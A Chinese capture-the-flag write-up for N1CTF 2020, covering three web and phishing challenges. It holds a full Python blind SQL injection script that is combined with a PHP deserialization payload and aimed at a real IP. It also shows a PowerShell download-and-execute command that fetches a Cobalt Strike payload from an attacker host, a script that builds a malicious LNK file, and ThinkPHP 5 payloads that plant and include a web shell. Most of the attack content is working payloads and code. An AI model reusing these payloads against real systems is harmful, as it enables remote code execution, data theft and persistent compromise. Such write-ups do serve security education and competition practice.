









2020N1CTF¶
太菜了 ，我爬 
SignIn¶
<?php
class ip {
public $ip;
public function waf($info){
}
public function __construct() {
if(isset($_SERVER['HTTP_X_FORWARDED_FOR'])){
$this->ip = $this->waf($_SERVER['HTTP_X_FORWARDED_FOR']);
}else{
$this->ip =$_SERVER["REMOTE_ADDR"];
}
}
public function __toString(){
$con=mysqli_connect("localhost","root","********","n1ctf_websign");
$sqlquery=sprintf("INSERT into n1ip(`ip`,`time`) VALUES ('%s','%s')",$this->waf($_SERVER['HTTP_X_FORWARDED_FOR']),time());
if(!mysqli_query($con,$sqlquery)){
return mysqli_error($con);
}else{
return "your ip looks ok!";
}
mysqli_close($con);
}
}
class flag {
public $ip;
public $check;
public function __construct($ip) {
$this->ip = $ip;
}
public function getflag(){
if(md5($this->check)===md5("key****************")){
readfile('/flag');
}
return $this->ip;
}
public function __wakeup(){
if(stristr($this->ip, "n1ctf")!==False)
$this->ip = "welcome to n1ctf2020";
else
$this->ip = "noip";
}
public function __destruct() {
echo $this->getflag();
}
}
if(isset($_GET['input'])){
$input = $_GET['input'];
unserialize($input);
}
if(stristr($this->ip, "n1ctf")!==False)
$this->ip = "welcome to n1ctf2020";
else
$this->ip = "noip";
}
import requests
req = requests.Session()
url = "http://101.32.205.189/"
input1 = '?input=O:4:"flag":2:{s:2:"ip";O:2:"ip":1:{s:2:"ip";N;}s:5:"check";N;}'
# 5.5.62-0ubuntu0.14.04.1
def version():
n1ctfversion = ""
for i in range(32):
for j in range(128):
payload = "1'and 1=(if((ascii(substr((select version() limit 0,1),{},1))={}),1,0)) and exp(~'n1ctf') and '1".format(i,j)
headers = {
'X-Forwarded-For':payload
}
print(j)
try:
text = req.get(url=url+input1,headers=headers).content.decode("utf-8")
except requests.exceptions.ConnectionError:
req.status_code = "Connection refused"
if "<code>welcome to n1ctf2020</code>" in text:
n1ctfversion += chr(j)
print(chr(j))
print(n1ctfversion)
break
# n1ip,n1key
def tables():
tables = ""
for i in range(32):
for j in range(128):
payload = "1'and 1=(if((ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema='n1ctf_websign' limit 0,1),{},1))={}),1,0)) and exp(~'n1ctf') and '1".format(i,j)
headers = {
'X-Forwarded-For':payload
}
print(j)
text = req.get(url=url+input1,headers=headers).content.decode("utf-8")
if "<code>welcome to n1ctf2020</code>" in text:
tables += chr(j)
print(chr(j))
print(tables)
break
# id,key
def column_name():
tables = ""
for i in range(32):
for j in range(128):
payload = "1'and 1=(if((ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='n1key' limit 0,1),{},1))={}),1,0)) and exp(~'n1ctf') and '1".format(i,j)
headers = {
'X-Forwarded-For':payload
}
print(j)
text = req.get(url=url+input1,headers=headers).content.decode("utf-8")
if "<code>welcome to n1ctf2020</code>" in text:
tables += chr(j)
print(chr(j))
print(tables)
break
def lengthkey():
for i in range(32):
payload = "1'and 1=(if((select length((select `key` from n1key limit 0,1))={}),1,0)) and exp(~'n1ctf') and '1".format(i)
headers = {
'X-Forwarded-For':payload
}
text = req.get(url=url+input1,headers=headers).content.decode("utf-8")
if "<code>welcome to n1ctf2020</code>" in text:
print (i)#25
break
def getkey():
key = ""
for i in range(1,32):
min_value = 1
max_value = 130
while(min_value<max_value):
mid = (max_value+min_value)//2
if (mid == min_value):
mid = mid + 1
break
payload = "1'and 1=(if((ascii(substr((select `key` from n1key limit 0,1),{},1))>{}),1,0)) and exp(~'n1ctf') and '1".format(i,mid)
print(mid)
headers = {
'X-Forwarded-For':payload
}
try:
text = req.get(url=url+input1,headers=headers).content.decode("utf-8")
except requests.exceptions.ConnectionError:
req.status_code = "Connection refused"
if "<code>welcome to n1ctf2020</code>" in text:
min_value = mid
else:
max_value = mid
key += chr(mid)
print (key)
if __name__ == "__main__":
#version()
#column_name()
#tables()
getkey()
#http://101.32.205.189/?input=O:4:"flag":2:{s:2:"ip";N;s:5:"check";s:25:"n1ctf20205bf75ab0a30dfc0c";}
PrismJS 1.22.0
The King Of Phish (Victim Bot)¶
域渗透 只会入口题目 我爬
拿到代码，让我们上传一个Windows的Lnk文件，然后他会自己运行，command_line_arguments处bypass一下空格就行

command_line_arguments指的是这里
CS4.0上号
设置监听 
生成🐎 

cmd /c powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://106.xx.xxx.xx:80/a'))"
(原来是空格 改成\t bypass
保存为test.txt
写个生成lnk的jio本
$file = Get-Content "test.txt"
$WshShell = New-Object -comObject WScript.Shell
$Shortcut = $WshShell.CreateShortcut("test.lnk")
$Shortcut.TargetPath = "%SystemRoot%\system32\cmd.exe"
$Shortcut.IconLocation = "%SystemRoot%\System32\Shell32.dll,21"
$Shortcut.Arguments = $file
$Shortcut.Save()
题目5分钟杀一次进程，拿cs进程注入一下维持shell
shspawn x64 payload.bin
Easy_tp5¶
利用tp5 自动生成模块
a=../../../../../../../var/www/html/public/<?cuc cucvasb();riny($_CBFG[1]); ?>&_method=__construct&filter[]=think\Build::module&method=POST

会自动生成一个模块 而且文件路径和controller\Index.php部分文件内容可控

<?php
namespace app\../../../../../../../var/www/html/public/<?cuc cucvasb();riny($_CBFG[1]); ?>\controller;
class Index
{
public function index()
{
return '<style type="text/css">*{ padding: 0; margin: 0; } div{ padding: 4px 48px;} a{color:#2E5CD5;cursor: pointer;text-decoration: none} a:hover{text-decoration:underline; } body{ background: #fff; font-family: "Century Gothic","Microsoft yahei"; color: #333;font-size:18px;} h1{ font-size: 100px; font-weight: normal; margin-bottom: 12px; } p{ line-height: 1.6em; font-size: 42px }</style><div style="padding: 24px 48px;"> <h1>:)</h1><p> ThinkPHP V5<br/><span style="font-size:30px">十年磨一剑 - 为API开发设计的高性能框架</span></p><span style="font-size:22px;">[ V5.0 版本由 <a href="http://www.qiniu.com" target="qiniu">七牛云</a> 独家赞助发布 ]</span></div><script type="text/javascript" src="http://tajs.qq.com/stats?sId=9347272" charset="UTF-8"></script><script type="text/javascript" src="http://ad.topthink.com/Public/static/client.js"></script><thinkad id="ad_bd568ce7058a1091"></thinkad>';
}
}
这里发生变换 但还是可以用php伪协议
a=php://filter/read=string.rot13/resource=%3c%3f%63%75%63%20%72%69%6e%79%28%24%5f%43%42%46%47%5b%31%5d%29%3b%20%3f%3e/controller/Index.php&_method=__construct&filter[]=think\__include_file&method=POST&1=phpinfo();

蚁剑绕disable_functions 一把梭
